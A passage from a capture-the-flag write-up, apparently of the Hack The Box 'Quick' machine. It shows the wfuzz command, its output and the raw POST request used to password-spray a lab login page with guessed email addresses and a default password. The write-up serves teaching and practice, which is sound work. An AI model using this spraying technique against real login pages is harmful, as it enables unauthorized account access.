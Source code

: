 It took a little bit of guesswork to figure out how to log into the site since I couldn't see any clues that pointed to any email addresses other than the three `@quick.htb` ones. I first tried iterating through all of the names I had found while adding `@quick.htb` on the the end, but that wasn't successful. Next I decided that since they provided the company names and countries for each of the users, I could make potential email addresses out of those.

```text
zweilos@kali:~/htb/quick$ wfuzz -w users -c -X POST -u 'http://quick.htb:9001/login.php' -d 'email=FUZZ&password=Quick4cc3$$'

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************
Target: http://quick.htb:9001/login.php
Total requests: 7
===================================================================
ID           Response   Lines    Word     Chars       Payload                                
===================================================================

000000003:   200        0 L      2 W      80 Ch       "james@lazycoop.co.cn"                 
000000001:   200        0 L      2 W      80 Ch       "tim@Qconsulting.co.uk"                
000000002:   302        0 L      0 W      0 Ch        "elisa@wink.co.uk"                     
000000004:   200        0 L      2 W      80 Ch       "roy@DarkWng.com"                      
000000005:   200        0 L      2 W      80 Ch       "jane@quick.htb"                       
000000006:   200        0 L      2 W      80 Ch       "mike@quick.htb"                       
000000007:   200        0 L      2 W      80 Ch       "john@quick.htb"                       

Total time: 0.105150
Processed Requests: 7
Filtered Requests: 0
Requests/sec.: 66.57097
```

I loaded my potential email address list into wfuzz and used it to username-spray the website.  My hunch seemed to be right! That 302 HTTP response above meant I had found a successful login for `elisa@wink.co.uk`! _I'm actually surprised there was only one user that used the default password provided to log in! :P_

```http
POST /login.php HTTP/1.1
Host: quick.htb:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://quick.htb:9001/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Connection: close
Cookie: PHPSESSID=nl56u8c71du29c6v8rafi3h23k
Upgrade-Insecure-Requests: 1
DNT: 1

email=elisa%40wink.co.uk&password=Quick4cc3%24%24
```
